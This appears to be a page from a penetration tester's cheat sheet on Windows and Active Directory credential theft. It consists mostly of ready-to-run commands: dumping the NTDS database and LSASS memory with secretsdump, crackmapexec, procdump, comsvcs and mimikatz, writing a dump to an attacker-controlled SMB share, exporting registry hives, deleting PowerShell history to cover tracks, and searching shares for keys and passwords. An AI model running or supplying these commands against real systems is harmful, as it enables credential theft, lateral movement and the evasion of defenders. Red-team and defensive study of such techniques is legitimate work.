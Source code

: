 ## Tools
* [LaZagne](https://github.com/AlessandroZ/LaZagne)
    ```batch
    laZagne.exe all
    ```

---
## Dumping Credentials[^1]

### NTDS dumping

#### Impacket-secretsdump directly
```bash
secretsdump.py company.local/administrator:P\@ssw0rd@192.168.1.100 -outputfile secretsdump.txt -resumefile resumefile -pwd-last-set -user-status -history
```

#### Crackmapexec
```bash
crackmapexec smb -d acme.corp -u administrator -p "P@ssw0rd" --ntds DC01.acme.corp
```

#### ntdsutil[^2][^3]
```
ntdsutil "activate instance ntds" "ifm" "create full C:\Windows\temp\ntdsutil" quit quit
# Via WMIC from a remote machine to DC
wmic /node:dc01.domain.com process call create "cmd.exe /c ntdsutil \"ac in ntds\" ifm \"cr fu C:\Windows\temp\ntdsutil\" q q"

# Then copy to kali and use secretsdump
secretsdump.py -ntds Active\ Directory/ntds.dit -system registry/SYSTEM -security registry/SECURITY LOCAL -pwd-last-set -user-status -history -outputfile output
```

#### Next steps
* [Password cracking](../Password_Cracking/Hashcat_general_cheatsheet.html)
* [Cleartext password correlation and analysis](https://github.com/trojand/Script_Yard/blob/main/ntds_hashcat_correlator.py)

### Dumping LSASS
* Try to archive and compress before exiltrating.
* After below, see [Data Exfiltration](../Network/Data_Exfiltration/Windows-Linux-Curl-SimpleHTTPServerwithUpload.html)
* See *Parsing LSASS* below
* Via procdump.exe
    ```batch
    procdump.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
    procdump64.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
    ```
* Via Task manager
    * Open `Task Manager` -> Details -> lsass.exe -> ++right-button++ -> "Create dump file"
* Rundll32 comsvcs ([get PID](../Useful_Commands/Windows.html#tasklist))
    * Dump and exfiltrate later
        ```batch
        C:\Windows\System32\rundll32.exe comsvcs.dll, MiniDump <pid> C:\Windows\temp\lsass.dmp full
        ```
    * Remote LSASS dump[^4]
        * Run below on the target/victim machine
            ```batch
            net use x: \\smbserver_under_your_control\c$\
            powershell -c rundll32.exe C:\windows\System32\comsvcs.dll MiniDump (Get-Process lsass).id x:\lsassdump.bin full
            ```
* Crackmapexec
    ```bash
    crackmapexec smb -d acme.corp -u administrator -p "P@ssw0rd" -M nanodump victimPC01.acme.corp
    crackmapexec smb -d acme.corp -u administrator -p "P@ssw0rd" -M handlekatz victimPC01.acme.corp
    ```

### Parsing LSASS
1. Kali
    ```bash
    pypykatz lsa -k ./kerberos minidump ./lsass.dmp
    ```
1. Windows
    ```batch
    mimikatz.exe log "sekurlsa::minidump lsass.dmp" sekurlsa::logonPasswords exit
    ```

### Exporting registry hives & local decryption
1. On the target machine
    ```batch
    mkdir c:\temp
    reg.exe save hklm\sam c:\temp\sam.save
    reg.exe save hklm\security c:\temp\security.save
    reg.exe save hklm\system c:\temp\system.save
    ```

1. Retrieve the files
    * See [Data Exfiltration](../Network/Data_Exfiltration/Windows-Linux-Curl-SimpleHTTPServerwithUpload.html)

1. On local machine (~Kali)
    ```bash
    secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
    ```
    
1. On target machine
    ```batch
    del c:\temp\sam.save
    del c:\temp\security.save
    del c:\temp\system.save
    rmdir c:\temp # Except when the "temp" folder already existed before Step 1. # Check if there are other contents in the folder
    ```
---
## Delete Powershell history
* Delete the "file" given by this command:
    ```powershell
    (Get-PSReadlineOption).HistorySavePath
    ```
* Or just replace the <username> below
    ```powershell
    del C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
    ```
---
## Looking for files in the Domain
* Useful when
    * escalating from a domain compromise to a full network or infrastructure compromise by looking for sensitive files such as:
        * ssh keys
        * password files
        * offline password manager DB files
    * sensitive files in "authenticated" shares
        * Attempting to escalate privileges and pivot to other hosts/networks
* About command:
    * spider = "*" to spider all shares per host
    * long list of `--exclude-dirs` to avoid scanning in the ADMIN$ or Windows folder and concentrate on other folders.
    * Edit the `--pattern` for more filename patterns
    
```bash
crackmapexec smb -d acme.corp -u administrator -p "P@ssw0rd" --spider "*" --exclude-dirs "addins,ADFS,appcompat,apppatch,AppReadiness,assembly,bcastdvr,Boot,Branding,CbsTemp,Cluster,Containers,CSC,Cursors,debug,diagnostics,DiagTrack,DigitalLocker,dot3svc,Downloaded Program Files,drivers,en-US,Fonts,GameBarPresenceWriter,Globalization,Help,IdentityCRL,IME,ImmersiveControlPanel,INF,InputMethod,Installer,L2Schemas,LiveKernelReports,Logs,Media,Microsoft.NET,Migration,Minidump,ModemLogs,OCR,Offline Web Pages,Panther,Performance,PLA,PolicyDefinitions,Prefetch,PrintDialog,Program Files,Program Files (x86),Provisioning,Registration,RemotePackages,rescache,Resources,SchCache,schemas,security,ServiceProfiles,ServiceState,servicing,Setup,ShellComponents,ShellExperiences,SKB,SoftwareDistribution,Speech,Speech_OneCore,System,System32,SystemApps,SystemResources,SysWOW64,TAPI,Tasks,Temp,tracing,twain_32,Vss,WaaS,Web,Windows,WinSxS,wlansvc" --pattern passw ssh username id_rsa id_ed25519 .pub  --only-files ~/Scope/all.txt
```

[^1]: [Pure Security](https://pure.security/dumping-windows-credentials/)
[^2]: [c0d3xpl0it](https://www.c0d3xpl0it.com/2016/10/dumping-ntdsdit-file-from-active-directory.html)
[^3]: [Hacking Articles](https://www.hackingarticles.in/credential-dumping-ntds-dit/)
[^4]: [Responder](https://twitter.com/PythonResponder/status/1385064506049630211)
